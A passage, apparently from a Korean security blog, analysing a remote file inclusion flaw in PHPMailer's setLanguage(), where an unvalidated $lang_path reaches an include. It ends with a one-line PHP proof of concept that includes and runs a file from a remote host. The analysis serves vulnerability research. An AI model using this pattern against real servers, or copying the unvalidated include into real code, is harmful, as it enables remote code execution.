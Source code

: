 ![/assets/2021-08-01/Untitled%2015.png](/assets/2021-08-01/Untitled%2015.png)

예를 들어, `setLanguage("ko");` 와 같이 사용하면 `$PHPMAILER_LANG` 객체의 값이 한국어로 초기화되는 것입니다.

소스코드를 확인해보면 `$langcode` 파라미터에 대해서는 validation이 적용되어 있지만, `$lang_path` 파라미터에 대해서는 비어있는 경우를 제외하고 별다른 필터링이 존재하지 않는 것을 알 수 있습니다.

그리고 이 검증되지 않은 `$lang_path` 파라미터를 사용하여 `$lang_file` 변수를 생성하며, 이를 include 하는 것을 확인할 수 있습니다.

여기에서 `$lang_path` 파라미터를 검증하지 않기 때문에 원격 주소지에 있는 파일을 UNC Path를 사용하여 불러온 후, include하여 RFI 취약점을 발생시킬 수 있습니다.

## RFI 취약점 동작 확인

---

```php
<?php
    include "http://choiys.kr/rfi/test.php";
?>
```

![/assets/2021-08-01/Untitled%2016.png](/assets/2021-08-01/Untitled%2016.png)
